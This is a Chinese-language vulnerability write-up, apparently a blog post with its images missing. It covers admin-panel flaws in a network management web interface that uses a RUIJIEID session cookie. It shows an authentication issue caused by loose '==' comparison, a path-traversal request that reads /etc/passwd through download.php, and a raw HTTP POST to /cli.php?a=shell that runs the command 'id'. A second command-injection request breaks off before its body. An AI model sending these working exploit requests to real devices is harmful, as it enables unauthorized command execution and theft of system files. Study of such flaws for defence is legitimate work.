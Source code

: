 ![]()

删掉cookie，会跳转回loginout.php

![]()

然后就可以直接使用后台洞RCE

比如漏洞文件rac_pi/rac.php

![]()

看了下代码，经典的==和===的问题

旧代码，使用==做判断，判断值是否相等，忽略数据类型

![]()

新代码，使用了===做判断，值和数据类型是否都相等

![]()

  * 后台任意文件读取

###

漏洞文件download.php

  * 

    
    
    /download.php?a=read_txt&file=../../../../etc/passwd

  * 后台命令执行一

####

漏洞文件cli.php

  *   *   *   *   *   *   *   *   *   *   * 

    
    
    POST /cli.php?a=shell HTTP/1.1            Host:             User-Agent: Go-http-client/1.1            Content-Length: 24            Content-Type: application/x-www-form-urlencoded            Cookie: RUIJIEID=nk5erth9i0pvcco3n7fbpa9bi0;user=admin;             X-Requested-With: XMLHttpRequest            Accept-Encoding: gzip              
               notdelay=true&command=id

     

  * 后台命令执行二

####

漏洞文件itbox_pi/branch_passw.php

  *   *   *   *   *   *   *   *   *   *   *   * 

    
    
    POST /itbox_pi/branch_passw.php?a=set HTTP/1.1            Host:             User-Agent: Go-http-client/1.1            Content-Length: 41            Content-Type: application/x-www-form-urlencoded            Cookie: RUIJIEID=52222egp72ilkpf2de7qbrigk3;user=admin;            X-Requested-With: XMLHttpRequest            Accept-Encoding: gzip              
      